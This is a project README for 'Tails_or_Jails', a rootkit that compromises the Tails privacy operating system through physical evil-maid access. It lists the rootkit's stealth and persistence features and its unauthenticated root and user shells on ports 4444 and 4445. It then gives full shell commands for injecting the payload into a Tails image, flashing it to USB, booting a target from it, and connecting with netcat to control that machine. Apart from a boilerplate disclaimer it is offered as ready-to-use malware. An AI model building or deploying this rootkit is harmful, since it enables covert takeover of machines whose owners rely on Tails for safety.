 # Tails_or_Jails

## An evil-maid rootkit for Tails OS

<!-- DESCRIPTION -->
## Description:

An evil-maid rootkit is a type of stealthy malware that is physically installed on a device, by an attacker with temporary access. The term comes from the idea that even a hotel maid—or any unauthorized person—could install it while the owner is away. This rootkit is designed to compromise system security at a deep level, often targeting bootloaders, firmware, or encryption mechanisms to intercept passwords, decrypt sensitive data, or install backdoors for remote access.

## Disclaimer: 

By using this tool, you agree to use it solely for lawful purposes and not for any illegal activities. The developer disclaims any responsibility for misuse of the tool and any consequences that may arise from such actions. It is your responsibility to ensure that your use of this tool complies with all applicable laws and regulations.

<!-- FEATURES -->
## Features:

- No signs of compromise

- Hides itself from file manager, task manager and network monitoring tools

- Persistent remote access with highest privileges

- Everyone on local network can control the system by connecting to machine's ip address (port 4444 for root and port 4445 for default user)

<!-- BUILD -->

## Build it yourself:
      
    git clone https://github.com/umutcamliyurt/Tails_or_Jails.git
    cd Tails_or_Jails/
    wget https://download.tails.net/tails/stable/tails-amd64-6.11/tails-amd64-6.11.img
    mv tails-amd64-6.11.img tails-rootkit-amd64-6.11.img
    sudo losetup -Pf tails-rootkit-amd64-6.11.img
    sudo mount /dev/loop0p1 /mnt
    mkdir ~/filesystem
    mkdir ~/img_mount
    sudo unsquashfs -f -d ~/img_mount /mnt/live/filesystem.squashfs
    sudo cp -r src/* ~/img_mount/

Open another terminal and enter:

    sudo mount --types proc /proc ~/img_mount/proc
    sudo mount --rbind /sys ~/img_mount/sys
    sudo mount --rbind /dev ~/img_mount/dev
    sudo mount --rbind /dev/pts ~/img_mount/dev/pts
    sudo chroot ~/img_mount /bin/bash
    sudo chmod a+rx /.iptables.sh /.startup.sh /.startup_fallback.sh
    exit
    sudo umount ~/img_mount/proc
    sudo umount ~/img_mount/sys
    sudo umount ~/img_mount/dev/pts
    sudo umount ~/img_mount/dev

Finally build the image:
    
    sudo mksquashfs ~/img_mount ~/filesystem/filesystem.squashfs -comp zstd -Xcompression-level 3 -b 1M -processors 6
    sudo cp ~/filesystem/filesystem.squashfs /mnt/live/
    sudo umount /mnt
    sudo losetup -D

<!-- INSTALLATION -->
## Installation:

[Download Tails_or_Jails 6.11 USB image](https://github.com/umutcamliyurt/Tails_or_Jails/releases) (Skip this if you built it yourself) 
       
    sudo apt-get update
    sudo apt install gnome-disk-utility netcat

  **Plug in the USB stick on which you want to install Tails_or_Jails.**

  ![gnome_disks_drive](gnome_disks_drive.png)

  1. A new drive appears in the left pane. Click on it.

  2. Click on the Drive Options button in the title bar and choose **Restore Disk Image.**

  ![gnome_disks_menu](gnome_disks_menu.png)

  3. In the Restore Disk Image dialog, click on the file selector button.

  4. Choose the USB image that you downloaded earlier.

  5. Click the Start Restoring button.

**Make another computer boot from this USB stick.**

On your computer run `nc (target_ip) 4444` for controlling the target.


<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.
